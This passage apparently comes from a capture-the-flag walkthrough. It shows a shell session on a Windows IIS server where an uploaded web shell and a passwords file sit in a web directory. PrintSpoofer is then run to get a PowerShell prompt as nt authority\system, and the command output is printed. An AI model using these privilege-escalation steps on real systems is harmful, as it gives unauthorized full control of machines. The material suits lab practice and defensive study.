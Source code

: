 ```bash

c:\inetpub>cd wwwroot
cd wwwroot

c:\inetpub\wwwroot>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot

07/25/2020  02:46 PM    <DIR>          .
07/25/2020  02:46 PM    <DIR>          ..
07/25/2020  08:05 AM    <DIR>          aspnet_client
07/25/2020  08:05 AM               703 iisstart.htm
07/25/2020  08:05 AM            99,710 iisstart.png
05/29/2025  11:47 AM    <DIR>          nt4wrksv
               2 File(s)        100,413 bytes
               4 Dir(s)  21,039,386,624 bytes free

c:\inetpub\wwwroot>cd nt4wrksv
cd nt4wrksv

c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

05/29/2025  11:47 AM    <DIR>          .
05/29/2025  11:47 AM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
05/29/2025  11:47 AM            27,136 PrintSpoofer64.exe
05/29/2025  11:47 AM         1,030,521 shelly.aspx
               3 File(s)      1,057,755 bytes
               2 Dir(s)  21,039,386,624 bytes free

c:\inetpub\wwwroot\nt4wrksv>
```

Once we are at the location, we must execute the `PrintSpoofer` and convert ourselves to `PowerShell` to escalate the privilege. After that, it is a walk in the park.


```bash
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer64.exe -i -c powershell.exe
PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32> cd c:\users
cd c:\users
PS C:\users> dir
dir


    Directory: C:\users
```